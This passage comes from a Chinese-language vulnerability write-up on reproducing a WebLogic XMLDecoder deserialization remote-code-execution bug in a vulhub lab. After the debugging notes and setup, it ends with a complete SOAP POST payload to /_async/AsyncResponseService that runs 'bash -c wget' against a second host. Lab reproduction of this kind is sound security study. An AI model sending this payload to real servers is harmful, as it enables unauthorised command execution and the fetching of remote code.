 再执行刚才的java，

[![](https://p1.ssl.qhimg.com/t018c280c2795118130.png)](https://p1.ssl.qhimg.com/t018c280c2795118130.png)

可以看到calc已经被执行。<br>
我们在刚才的Expression处下断，

[![](https://p4.ssl.qhimg.com/t016b9ad2050ee85d0c.png)](https://p4.ssl.qhimg.com/t016b9ad2050ee85d0c.png)

当执行完create()之后，即会弹出计算器。

[![](https://p3.ssl.qhimg.com/t01e21851785888fe2e.png)](https://p3.ssl.qhimg.com/t01e21851785888fe2e.png)

也就是说，只要能够传入合适的XML，且顺利被目标的readObject调用，就有可能成功实现RCE。



## 二、调试

### <a class="reference-link" name="%EF%BC%88%E4%B8%80%EF%BC%89%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA"></a>（一）环境搭建

选用vulhub-master/weblogic/CVE-2017-10271

```
docker-compose up -d
```

将其中的Oracle文件夹拷出，<br>
根据提示，只将/wlserver_10.3/server/lib导入idea即可，用到的主要是wlserver_10.3\server\lib\wseeclient.jar!\weblogic\wsee\server\servlet\BaseWSServlet.class

### <a class="reference-link" name="%EF%BC%88%E4%BA%8C%EF%BC%89%E5%A4%8D%E7%8E%B0"></a>（二）复现

Afant1大佬的payload如下，

```
POST /_async/AsyncResponseService HTTP/1.1
Host: 192.168.43.64:7001
Accept-Encoding: gzip, deflate
SOAPAction: 
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml
Content-Length: 768

&lt;soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService"&gt;&lt;soapenv:Header&gt;&lt;wsa:Action&gt;xx&lt;/wsa:Action&gt;&lt;wsa:RelatesTo&gt;xx&lt;/wsa:RelatesTo&gt;&lt;work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"&gt;&lt;java version="1.8.0_131" class="java.beans.xmlDecoder"&gt;&lt;void class="java.lang.ProcessBuilder"&gt;&lt;array class="java.lang.String" length="3"&gt;&lt;void index="0"&gt;&lt;string&gt;bash&lt;/string&gt;&lt;/void&gt;&lt;void index="1"&gt;&lt;string&gt;-c&lt;/string&gt;&lt;/void&gt;&lt;void index="2"&gt;&lt;string&gt;wget 192.168.43.134:9898&lt;/string&gt;&lt;/void&gt;&lt;/array&gt;&lt;void method="start"/&gt;&lt;/void&gt;&lt;/java&gt;&lt;/work:WorkContext&gt;&lt;/soapenv:Header&gt;&lt;soapenv:Body&gt;&lt;asy:onAsyncDelivery/&gt;&lt;/soapenv:Body&gt;&lt;/soapenv:Envelope&gt;

```
